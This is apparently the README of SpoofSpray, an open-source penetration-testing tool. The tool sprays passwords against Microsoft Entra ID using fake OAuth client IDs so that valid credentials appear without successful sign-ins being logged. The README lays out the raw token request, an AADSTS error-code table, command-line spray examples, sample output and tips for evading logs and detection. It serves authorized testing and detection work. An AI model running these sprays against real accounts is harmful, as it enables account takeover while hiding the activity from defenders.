

<div align="center">


### SpoofSpray

<small><i>Poof. You're in</i></small>

[](https://python.org)
[](#license)
[](#status)

SpoofSpray validates credentials against Entra ID's token endpoint using a fake client ID, so correct passwords light up while successful sign-in events stay out of the logs.

<br/>

</div>

---

## What it does

SpoofSpray is a small Python tool for **OAuth client-ID spoofing** - the spray technique [Proofpoint wrote up](https://www.proofpoint.com/us/blog/threat-insight/oauth-client-id-spoofing-why-fake-client-ids-are-gaining-traction-stealthy) as attackers' answer to sign-in-log detections when password spraying against Azure/Entra ID environments. It sends one ROPC (`grant_type=password`) request per account and reads the AADSTS error code that comes back which can indicate various states: whether the user exists, whether the password was right, whether MFA kicked in, whether the account is locked or expired.

It's built for helping with potential initial access during authorized engagements. It can spray one password across a user list, work through a small password list (don't lock accounts out!), and save successful hits in an output file for later.

## How it works

In short, Entra ID validates the **username and password first** and only then checks whether the `client_id` in the request is a real application:

```bash
POST https://login.microsoftonline.com/{tenant}/oauth2/token
     grant_type=password
     username=user@corp.com
     password=Spring2026!
     client_id=00000000-fake-guid
     resource=https://graph.microsoft.com
```

Because credentials are checked before the application, a _correct_ password returns `AADSTS700016` ("application not found"). In that case, the credentials were valid but Entra just never got as far as registering the sign-in because the client/application ID was not found. No successful sign-in event gets logged so is **in theory** more OPSEC safe although it's not guaranteed to bypass blue team detections. 

On the other end, a wrong password returns `AADSTS50126`, which _is_ logged - so the cat and mouse game is trying to pick codes that tell you what you need without generating the events that burn you.

Using a malformed GUID (`AADSTS900144`) leaves the application name blank in the sign-in logs entirely, and spreading the spray across rotating user agents and exit proxies keeps the volume per source low.

## The code table

| Response                | Meaning                                                                                                           |
| ----------------------- | ----------------------------------------------------------------------------------------------------------------- |
| `AADSTS700016`          | **Credentials correct** - the fake client ID wasn't found, and no successful sign-in was logged. The stealth win. |
| `AADSTS50126`           | User exists, password wrong (failed sign-in is logged).                                                           |
| `AADSTS50034`           | User doesn't exist - and the attempt isn't logged at all.                                                         |
| `AADSTS900144`          | Malformed client ID - the application name/ID is left blank in the logs.                                          |
| `AADSTS50076` / `50079` | Credentials correct, but MFA is required.                                                                         |
| `AADSTS50055`           | Credentials correct, password expired.                                                                            |
| `AADSTS50057`           | Account exists but is disabled.                                                                                   |
| `AADSTS50053`           | Account locked (SpoofSpray pauses for the lockout window).                                                        |
| `AADSTS50158`           | External security challenge (e.g. location-based).                                                                |
| `AADSTS53003`           | Blocked by Conditional Access.                                                                                    |
| `AADSTS50005`           | Conditional Access platform restriction.                                                                          |
| `AADSTS50059`           | Tenant not found.                                                                                                 |

Unknown codes can be printed as-is with `-v` so if Microsoft adds new ones, you can debug and find them easily.

## Installation

Clone it, install the one dependency, go:

```bash
git clone https://github.com/r0otsec/spoofspray.git
cd spoofspray
pip install -r requirements.txt
python3 spoofspray.py -h
```

## Options

```
usage: spoofspray.py [-h] -t TENANT [-u USER | -el ELIST] [-p PASSWORD | -pl PLIST]
                     [-c CLIENT_ID] [-r RESOURCE] [-d DELAY] [-l LOCKOUT]
                     [-o OUTPUT [--format txt|json|csv] [--valid-only]]
                     [-x PROXY] [-v] [--debug] [--list-resources] [--list-client-ids]

Targets
  -t, --tenant TENANT      Tenant GUID or domain (the {tenant} in /oauth2/token)
  -u, --user USER          One account to test
  -el, --elist ELIST       File of accounts, one per line

Credentials
  -p, --password PASSWORD  Password to spray
  -pl, --plist PLIST       File of passwords (sprays users x passwords)
  -c, --client-id CLIENT   Spoofed client ID (default: a random unregistered GUID)
  -r, --resource RESOURCE  ROPC resource (default: graph)

Pacing and noise
  -d, --delay SECONDS      Seconds between requests (default: 2)
  -l, --lockout MINUTES    Pause after an "Account Locked!" hit (default: 15)
  -x, --proxy PROXY        HTTP(S) proxy for cycling exit IPs

Output
  -o, --output FILE        Write results to a file
      --format FORMAT      txt, json, or csv (default: txt)
      --valid-only         Save only successful authentications
  -v, --verbose            Append the raw AADSTS code to every result line
      --debug              Print every HTTP request and response as it happens

Reference data
      --list-resources     Show common ROPC resource values
      --list-client-ids    Show well-known first-party Microsoft client IDs
```

## Examples

Spray one password across a user list:

```bash
python3 spoofspray.py -t client.com -el users.txt -p 'Password321!'
```

Work through a password list, watching every request:

```bash
python3 spoofspray.py -t client.com -el users.txt -pl passwords.txt --debug -v
```

Save only valid credentials as JSON for the report:

```bash
python3 spoofspray.py -t client.com -el users.txt -pl passwords.txt \
  -o hits.json --format json --valid-only
```

Spoof a specific first-party client ID, slow and careful:

```bash
python3 spoofspray.py --list-client-ids
python3 spoofspray.py -t client.com -el users.txt -p 'Password321!' \
  -c d3590ed6-52b3-4102-aeff-aad2292ab01c -d 30
```

## What a run looks like

```
$ python3 spoofspray.py -t client.com -el users.txt -p 'Spring2026!' -v

[info] Starting SpoofSpray at Tue Nov 17 22:46:09 2026
[info] Tenant: client.onmicrosoft.com
[info] Client ID: 1f3ecd2a-6c93-4a36-a83e-42adbc8f14d2
[info] Accounts: 3
[info] Passwords: 1
[info] User list: users.txt
[info] Resource: https://graph.microsoft.com
[info] Delay: 2.0s  Lockout pause: 15 min

[+] joe@client.com Result - VALID PASSWORD - STEALTH (no sign-in logged) (AADSTS700016) [+]
[-] test@clientcom Result - Invalid Credentials! (AADSTS50126) [-]
[-] ghost@client.com Result - Invalid Account! (AADSTS50034) [-]

[info] SpoofSpray discovered one valid credential pair.
[info] Scan completed at Tue Nov 17 22:46:11 2026
```



## Safety

SpoofSpray is for **authorized security assessments only**. Spray accounts inside your engagement scope, with permission, at a pace you'd defend in a report - every `AADSTS50126` is a logged authentication event against a real user, and lockouts hurt. The defaults (2-second delay, 15-minute lockout pause) exist on purpose.

## Status

Active development alongside [Zaffre](https://github.com/r0otsec/zaffre). One file, zero config, feature requests welcome.

## License

MIT - see [LICENSE](LICENSE).
